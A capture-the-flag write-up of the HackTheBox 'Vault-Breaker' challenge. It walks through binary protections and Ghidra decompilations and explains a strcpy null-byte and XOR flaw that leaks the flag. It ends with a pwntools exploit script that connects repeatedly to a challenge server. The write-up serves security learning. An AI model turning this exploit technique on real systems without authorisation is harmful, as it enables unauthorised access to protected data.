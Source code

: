```yaml
---
layout: post
title: Binary Exploitatiog&#58; HacktheBox Vault-Breaker Write-up
---
```


## HacktheBox Vault-Breaker Write-up

This was a pretty simply challenge that is centered around the ```strcpy``` function.

First, we need to check the file type and securities on the binary
```
└─$ file vault-breaker
vault-breaker: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./.glibc/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=26386d5d416b0017bc57216179a3fb116fa78667, not stripped
```
```
└─$ checksec --file=vault-breaker                                                
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   RW-RUNPATH   90 Symbols	  No	0		5		vault-breaker
```

With a canary, NX, and PIE, we won't be able to (or at least easily) do a buffer overflow or shellcode injection. Time to see what it looks like in ghidra.

### Reversing

First, let's check the ```main``` function.
```c
void main(void)

{
  long lVar1;
  
  setup();
  banner();
  key_gen();
  fprintf(stdout,"%s\n[+] Random secure encryption key has been generated!\n%s",&DAT_00103142,
          &DAT_001012f8);
  fflush(stdout);
  while( true ) {
    while( true ) {
      printf(&DAT_00105160,&DAT_001012f8);
      lVar1 = read_num();
      if (lVar1 != 1) break;
      new_key_gen();
    }
    if (lVar1 != 2) break;
    secure_password();
  }
  printf("%s\n[-] Invalid option, exiting..\n",&DAT_00101300);
                    /* WARNING: Subroutine does not return */
  exit(0x45);
}
```

The program generates a random key value in the ```key_gen()``` function and then prompts the user for a menu choice. The options are ```1``` for generate a new key and ```2``` to "secure" the password.

Now we need to look at the ```new_key_gen``` function.
```c
void new_key_gen(void)

{
  int iVar1;
  FILE *__stream;
  long in_FS_OFFSET;
  ulong local_60;
  ulong local_58;
  char local_48 [40];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  local_60 = 0;
  local_58 = 0x22;
  __stream = fopen("/dev/urandom","rb");
  if (__stream == (FILE *)0x0) {
    fprintf(stdout,"\n%sError opening /dev/urandom, exiting..\n",&DAT_00101300);
                    /* WARNING: Subroutine does not return */
    exit(0x15);
  }
  while (0x1f < local_58) {
    printf("\n[*] Length of new password (0-%d): ",0x1f);
    local_58 = read_num();
  }
  memset(local_48,0,0x20);
  iVar1 = fileno(__stream);
  read(iVar1,local_48,local_58);
  for (; local_60 < local_58; local_60 = local_60 + 1) {
    while (local_48[local_60] == '\0') {
      iVar1 = fileno(__stream);
      read(iVar1,local_48 + local_60,1);
    }
  }
  strcpy(random_key,local_48);
  fclose(__stream);
  printf("\n%s[+] New key has been genereated successfully!\n%s",&DAT_00103142,&DAT_001012f8);
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

This function essentially generates a new key of the length provided by the user. The vulnerability is in the ```strcpy``` function. ```strcpy``` takes the contents of ```arg[1]``` and copies them into ```arg[0]```. The catch is, that it will copy the null terminator as well. This will be an important detail in the next function we take a look at, ```secure_password```.
```c
void secure_password(void)

{
  char *__buf;
  int __fd;
  ulong uVar1;
  size_t sVar2;
  long in_FS_OFFSET;
  char acStack136 [24];
  undefined8 uStack112;
  int local_68;
  int local_64;
  char *local_60;
  undefined8 local_58;
  char *local_50;
  FILE *local_48;
  undefined8 local_40;
  
  local_40 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  uStack112 = 0x100c26;
  puts("\x1b[1;34m");
  uStack112 = 0x100c4c;
  printf(&DAT_00101308,&DAT_001012f8,&DAT_00101300,&DAT_001012f8);
  local_60 = &DAT_00101330;
  local_64 = 0x17;
  local_58 = 0x16;
  local_50 = acStack136;
  memset(acStack136,0,0x17);
  local_48 = fopen("flag.txt","rb");
  __buf = local_50;
  if (local_48 == (FILE *)0x0) {
    fprintf(stderr,"\n%s[-] Error opening flag.txt, contact an Administrator..\n",&DAT_00101300);
                    /* WARNING: Subroutine does not return */
    exit(0x15);
  }
  sVar2 = (size_t)local_64;
  __fd = fileno(local_48);
  read(__fd,__buf,sVar2);
  fclose(local_48);
  puts(local_60);
  fwrite("\nMaster password for Vault: ",1,0x1c,stdout);
  local_68 = 0;
  while( true ) {
    uVar1 = (ulong)local_68;
    sVar2 = strlen(local_50);
    if (sVar2 <= uVar1) break;
    putchar((int)(char)(random_key[local_68] ^ local_50[local_68]));
    local_68 = local_68 + 1;
  }
  puts("\n");
                    /* WARNING: Subroutine does not return */
  exit(0x1b39);
}
```

This function looks like a lot, but the salient detail is in this code block:
```c
  while( true ) {
    uVar1 = (ulong)local_68;
    sVar2 = strlen(local_50);
    if (sVar2 <= uVar1) break;
    putchar((int)(char)(random_key[local_68] ^ local_50[local_68]));
    local_68 = local_68 + 1;
  }
```

The flag is XORed with our key. Using the information we gathered previously about the nature of the ```strcpy``` function and the fact that anything XORed with 0 is equal to itself, we can put together the flag one character at a time.

### Pwn

To complete this challenge, we need a script that will connect to the target and input a key length 32 times from 0 to 31 (The key length is 32 bytes).
```python
!/usr/bin/env  python3

from pwn import *


for i in range(32):
    p = remote("167.172.52.160", 32550) 
    p.recvuntil(b"> ", timeout=30)
    p.sendline(b"1")
    p.recvuntil(b"Length of new password (0-31): ", timeout=30)
    p.sendline(str(i))
    p.recvuntil(b"> ", timeout=30)
    p.sendline(b"2")

    # Capture response
    p.recvuntil(b"Vault: ", timeout=30)
    print(chr(p.recvline()[i]))

    p.close()
```

Et Voila!
